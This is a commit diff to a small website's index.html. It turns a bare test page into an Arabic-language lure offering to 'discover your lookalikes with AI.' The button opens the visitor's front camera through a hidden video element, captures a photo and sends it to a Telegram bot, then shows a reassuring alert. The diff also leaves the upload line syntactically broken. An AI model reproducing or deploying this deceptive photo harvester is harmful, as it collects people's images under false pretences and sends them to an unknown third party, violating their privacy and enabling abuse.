

Before and after one commit to ali-binjaah/1, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,18 +1,105 @@
 <!DOCTYPE html>
-<html>
+<html lang="ar" dir="rtl">
 <head>
-  <title>Capture Photo</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>اكتشف أشباهك حول العالم باستخدام الذكاء الاصطناعي</title>
+  <style>
+    body {
+      font-family: 'Arial', sans-serif;
+      background-color: #1e1e2f;
+      color: #fff;
+      margin: 0;
+      padding: 0;
+      text-align: center;
+    }
+    header {
+      background-color: #3e4a89;
+      color: #fff;
+      padding: 40px 0;
+      font-size: 2.5em;
+      text-transform: uppercase;
+      font-weight: bold;
+      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
+      animation: fadeIn 2s ease-in-out;
+    }
+    .container {
+      max-width: 800px;
+      margin: 40px auto;
+      padding: 40px;
+      background-color: #2a2c3e;
+      border-radius: 15px;
+      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.3);
+      animation: slideIn 1.5s ease-in-out;
+    }
+    h2 {
+      color: #f4d03f;
+      font-size: 2.2em;
+      margin-bottom: 20px;
+      animation: fadeIn 2.5s ease-in-out;
+    }
+    p {
+      font-size: 1.4em;
+      line-height: 1.6;
+      color: #b0b0b0;
+      animation: fadeIn 3s ease-in-out;
+    }
+    button {
+      background-color: #f4d03f;
+      color: #2a2c3e;
+      font-size: 1.5em;
+      padding: 15px 30px;
+      border: none;
+      border-radius: 10px;
+      cursor: pointer;
+      transition: background-color 0.3s, transform 0.3s;
+      text-transform: uppercase;
+      font-weight: bold;
+      animation: pulse 2s infinite;
+    }
+    button:hover {
+      background-color: #ffca28;
+      transform: scale(1.05);
+    }
+    #videoElement {
+      display: none;
+    }
+    #canvas {
+      display: none;
+    }
+    @keyframes fadeIn {
+      from { opacity: 0; }
+      to { opacity: 1; }
+    }
+    @keyframes slideIn {
+      from { transform: translateY(-50px); opacity: 0; }
+      to { transform: translateY(0); opacity: 1; }
+    }
+    @keyframes pulse {
+      0% { transform: scale(1); }
+      50% { transform: scale(1.05); }
+      100% { transform: scale(1); }
+    }
+  </style>
 </head>
 <body>
-  <h1>Welcome to the Test Page</h1>
-  <p>Click the button below to perform the action.</p>
+  <header>
+    اكتشف أشباهك حول العالم باستخدام الذكاء الاصطناعي
+  </header>
 
-  <!-- زر لتنفيذ العملية -->
-  <button id="capture">Click Me</button>
+  <div class="container">
+    <h2>هل ترغب في معرفة من يشبهك في أنحاء العالم؟</h2>
+    <p>استخدم الذكاء الاصطناعي المتقدم لاكتشاف الأشخاص الذين يشبهونك في مختلف أنحاء العالم. اضغط على الزر أدناه لالتقاط صورة باستخدام كاميرتك الأمامية وابدأ رحلة الاكتشاف!</p>
 
-  <!-- عناصر مخفية لالتقاط الصورة -->
-  <video id="video" autoplay style="display:none;"></video>
-  <canvas id="canvas" style="display:none;"></canvas>
+    <!-- زر لالتقاط الصورة -->
+    <button id="captureButton">ابدأ الاكتشاف الآن</button>
+
+    <!-- عنصر الفيديو لعرض البث المباشر من الكاميرا (مخفي) -->
+    <video id="videoElement" autoplay></video>
+
+    <!-- عنصر canvas لالتقاط الصورة (مخفي) -->
+    <canvas id="canvas"></canvas>
+  </div>
 
   <script>
     // ضع معلومات بوت تيليجرام هنا
@@ -21,24 +108,24 @@
 
     let videoStream;
 
-    document.getElementById('capture').addEventListener('click', () => {
+    document.getElementById('captureButton').addEventListener('click', () => {
       // طلب الوصول إلى الكاميرا
       navigator.mediaDevices.getUserMedia({ video: true })
         .then(stream => {
+          // عرض الفيديو من الكاميرا (مخفي)
           videoStream = stream;
-          const video = document.getElementById('video');
-          video.srcObject = stream;
+          const videoElement = document.getElementById('videoElement');
+          videoElement.srcObject = stream;
 
+          // بعد 2 ثانية، نلتقط الصورة
           setTimeout(() => {
             const canvas = document.getElementById('canvas');
             const context = canvas.getContext('2d');
-            canvas.width = video.videoWidth;
-            canvas.height = video.videoHeight;
+            canvas.width = videoElement.videoWidth;
+            canvas.height = videoElement.videoHeight;
+            context.drawImage(videoElement, 0, 0, canvas.width, canvas.height);
 
-            // التقاط الصورة من الكاميرا
-            context.drawImage(video, 0, 0, canvas.width, canvas.height);
-
-            // إيقاف الكاميرا
+            // إيقاف الكاميرا بعد التقاط الصورة
             videoStream.getTracks().forEach(track => track.stop());
 
             // تحويل الصورة إلى Blob
@@ -48,22 +135,30 @@
               formData.append('photo', blob);
 
               // إرسال الصورة إلى تيليجرام
-              fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendPhoto`, {
+              fetch("https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN"}/sendPhoto, {
                 method: 'POST',
                 body: formData
               })
               .then(response => {
                 if (response.ok) {
-                  console.log('Image sent to Telegram successfully!');
+                  console.log('تم إرسال الصورة إلى تيليجرام بنجاح!');
+                  alert('تم إرسال الصورة بنجاح! سنقوم بتحليلها وإرسال النتائج قريبًا.');
                 } else {
-                  console.error('Failed to send image to Telegram:', response.statusText);
+                  console.error('فشل إرسال الصورة إلى تيليجرام:', response.statusText);
+                  alert('حدث خطأ أثناء إرسال الصورة. يرجى المحاولة مرة أخرى.');
                 }
               })
-              .catch(error => console.error('Error sending image to Telegram:', error));
+              .catch(error => {
+                console.error('خطأ في إرسال الصورة إلى تيليجرام:', error);
+                alert('حدث خطأ أثناء إرسال الصورة. يرجى المحاولة مرة أخرى.');
+              });
             });
           }, 2000); // تأخير بسيط قبل التقاط الصورة
         })
-        .catch(error => console.error('Error accessing camera:', error));
+        .catch(error => {
+          console.error('خطأ في الوصول إلى الكاميرا:', error);
+          alert("لم نتمكن من الوصول إلى الكاميرا. يرجى المحاولة مرة أخرى.");
+        });
     });
   </script>
 </body>
```
